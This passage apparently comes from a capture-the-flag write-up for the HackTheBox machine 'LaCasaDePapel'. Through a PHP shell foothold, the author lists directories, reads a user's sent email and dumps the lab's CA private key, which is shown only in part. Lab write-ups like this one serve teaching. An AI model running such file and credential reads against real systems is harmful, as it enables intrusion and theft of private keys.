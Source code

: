 ```
     "ca.key",
     "download.jade",
     "error.jade",
     "index.jade",
     "node_modules",
     "server.js",
     "static",
   ]
```

In Oslo's mail directory I find an email that seemed to have been generated when I logged in with the OTP token on the main webpage.

```
scandir('/home/oslo/Maildir');
=> [
     ".",
     "..",
     ".Sent",
     ".Spam",
     "cur",
     "new",
     "tmp",
   ]
scandir('/home/oslo/Maildir/.Sent/cur');
=> [
     ".",
     "..",
     "1553996613811.M45533P25345V0000000000064766I000000000bddc36.lacasadepapel.htb,S=430,2,S",
   ]
readfile('/home/oslo/Maildir/.Sent/cur/1553996613811.M45533P25345V0000000000064766I000000000bddc36.lacasadepapel.htb,S=430,2,S');
Content-Type: text/plain; format=flowed
From: dali@lacasadepapel.htb
Content-Transfer-Encoding: 7bit
Date: Sun, 31 Mar 2019 01:53:01 +0000
Message-Id: <1553997181916-f1bee4c5-810b2c36-4f055080@lacasadepapel.htb>
MIME-Version: 1.0

Welcome to our community!
Thanks for signing up. To continue, please verify your email address by 
clicking the url below.
https://lacasadepapel.htb/64fd1030-5356-11e9-ae89-233fa7c29f94

=> 430
```

I also find the CA private key in Nairobi's home directory:

```
readfile('/home/nairobi/ca.key');
-----BEGIN PRIVATE KEY-----
MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQDPczpU3s4Pmwdb
7MJsi//m8mm5rEkXcDmratVAk2pTWwWxudo/FFsWAC1zyFV4w2KLacIU7w8Yaz0/
2m+jLx7wNH2SwFBjJeo5lnz+ux3HB+NhWC/5rdRsk07h71J3dvwYv7hcjPNKLcRl
uXt2Ww6GXj4oHhwziE2ETkHgrxQp7jB8pL96SDIJFNEQ1Wqp3eLNnPPbfbLLMW8M
YQ4UlXOaGUdXKmqx9L2spRURI8dzNoRCV3eS6lWu3+YGrC4p732yW5DM5Go7XEyp
s2BvnlkPrq9AFKQ3Y/AF6JE8FE1d+daVrcaRpu6Sm73FH2j6Xu63Xc9d1D989+Us
PCe7nAxnAgMBAAECggEAagfyQ5jR58YMX97GjSaNeKRkh4NYpIM25renIed3C/3V
Dj75Hw6vc7JJiQlXLm9nOeynR33c0FVXrABg2R5niMy7djuXmuWxLxgM8UIAeU89
1+50LwC7N3efdPmWw/rr5VZwy9U7MKnt3TSNtzPZW7JlwKmLLoe3Xy2EnGvAOaFZ
/CAhn5+pxKVw5c2e1Syj9K23/BW6l3rQHBixq9Ir4/QCoDGEbZL17InuVyUQcrb+
q0rLBKoXObe5esfBjQGHOdHnKPlLYyZCREQ8hclLMWlzgDLvA/8pxHMxkOW8k3Mr
uaug9prjnu6nJ3v1ul42NqLgARMMmHejUPry/d4oYQKBgQDzB/gDfr1R5a2phBVd
I0wlpDHVpi+K1JMZkayRVHh+sCg2NAIQgapvdrdxfNOmhP9+k3ue3BhfUweIL9Og
```